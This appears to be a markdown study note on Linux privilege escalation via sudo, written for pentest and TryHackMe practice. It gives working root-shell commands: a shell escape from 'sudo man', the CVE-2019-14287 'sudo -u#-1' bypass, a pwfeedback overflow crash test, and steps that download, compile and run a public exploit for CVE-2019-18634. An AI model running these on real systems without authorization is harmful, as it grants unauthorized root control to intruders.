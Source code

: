 # Linux Privilege Escalation: SUDO Privileges

## Contents
- [What are we looking for?](#what-are-we-looking-for)
- [Standard Local Enumeration](#standard-local-enumeration)
  - [`sudo -l`](#sudo--l)
  - [Results](#results)
  - [The Vulnerability](#the-vulnerability)
- [The Hack: `sudo man [command]`](#the-hack-sudo-man-command)
- [Security Bypass - CVE-2019-14287](#security-bypass---cve-2019-14287)
- [pwfeedback - CVE-2019-18634](#pwfeedback---cve-2019-18634)

## What are we looking for?
- We are looking for poorly configured binaries (executables) on the compromised Linux system.
  - We can use these binaries to elevate our privileges
- Many binaries in Linux can be used to execute specific commands.
  - If a binary has sudo privileges attached (without a password), you may be able to use that binary to spawn a shell (thus gaining root privs). 

## Standard Local Enumeration

### `sudo -l`
```
cat /etc/passwd     #find out what other users are configured on the system
sudo -l
```
-  `-l` (lowercase "L" for list) list out the sudo commands the current user can run.
-  [From the man page](https://linux.die.net/man/8/sudo): The `-l` (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

### Results
- Assume we found a binary we can run with sudo privileges: `/sur/bin/man`
- And the "NOPASSWD" option has been set
- So we can run that command as root without any password or authentication
- This is a misconfiguration we can exploit (see below).
- Use [GTFOBins](https://gtfobins.github.io/) to look up how to compromise the binary file you and use with sudo.

### The Vulnerability
- The `man` utility (to display "man pages") allows you to spawn a Bash shell via the utility itself.
- The normal way you'd open a man page is `man [command]`.
  - This will open the man page with the current user's privileges.
- But if you can run `/usr/bin/man` with root privs using `sudo` (because it's set with "NOPASSWD"), then you can open a shell as root.
  - Preface the `man` comand with `sudo`. That runs the command with root privileges: `sudo man [command]`
  - And since the system is configured to run `/usr/bin/man` via sudo without a password, you are not prompted for any authentication. 

## [The Hack](https://gtfobins.github.io/gtfobins/man/#sudo): `sudo man [command]`
- Open a man page (any man page) with sudo: `sudo man [command]` 
- It parses out the contents of the man page with "more"
- While the man page is displayed, you can enter commands with the "!"
  - Example:  `!/bin/bash`
  - This is a function of more not of man.
  - [From the more man page](https://man7.org/linux/man-pages/man1/more.1.html): `!command` or `:!command` : Execute command in a subshell.
  - `less` works the same way.
- This results in a Bash session as root (the owner of the man process from which the shell was spawned).

## [Security Bypass (sudo < 1.8.28)](https://www.exploit-db.com/exploits/47502) 
> CVE-2019-14287

### 1. Check for the user sudo permissions
- You can either run a `sudo -l` or `cat` out the **/etc/sudoers/** file.
- You are looking for this configuration: 
```
# from sudo -l: 
User hacker may run the following commands on kali:
  (ALL, !root) /bin/bash

# or in /etc/sudoers:
hacker ALL=(ALL,!root) /bin/bash
```

### 2. Exploit: 
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo privilege.
- `-u#-1` returns as 0 which is root's id
- And then /bin/bash is executed with root permission:
```
sudo -u#-1 /bin/bash
```

### 3. [TryHackMe Walk-Through](https://tryhackme.com/r/room/sudovulnsbypass)

## [pwfeedback (sudo < 1.8.26)](https://www.exploit-db.com/exploits/47995)
> CVE-2019-18634

If pwfeedback is enabled in sudoers, you may be able to escalate privileges through buffer overflow.
- Sudo's pwfeedback option can be used to provide visual feedback when the user is inputting their password.
- For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard Password: prompt disables the echoing of key presses.
- While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.
- Due to a bug, when the pwfeedback option is enabled in the sudoers file, a user may be able to trigger a stack-based buffer overflow.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.

### 1. Check for the configuration: pwfeedback
- Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled.
- You can try a `sudo -l` or `cat /etc/sudoers` but if you cannot access sudo because of perms, just run sudo command (any command; e.g., `sudo su root`).
- If you get an asterisk everytime you type a letter in for the password, pwfeedback is enabled.
- If sudo is < 1.8.26, then the hack should work.
```
sudo -l
# If the results include pwfeedback, like below, sudo is vulnerable.
Matching Defaults entries for millert on linux-build:
insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

User millert may run the following commands on linux-build:
(ALL : ALL) ALL
```

### 2. You can check to see if the vulnerability can be exploited with:
```
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```
- If that returns `Password: Segmentation fault`, it is exploitable.
- This perl command does not actually exploit the vulnerability.
  - We use Perl to generate a lot of information which we're then passing into the sudo command as a password using the pipe (|) operator.
  - This doesn't actually give us root permissions -- instead it shows us an error message: Segmentation fault, which basically means that we've tried to access some memory that we weren't supposed to be able to access.
  - This proves that a buffer overflow vulnerability exists, but it doesn't exploit it. 

### 3. Exploit:
- [Actual Exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) | [TryHackMe Write-Up](https://tryhackme.com/r/room/sudovulnsbof)

```
#Download the C code onto your target machine (because you have to compile on the target machine).
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/refs/heads/master/exploit.c

# Compile that file on the target machine: 
gcc -o exploit exploit.c 

# Execute it:
./exploit
```
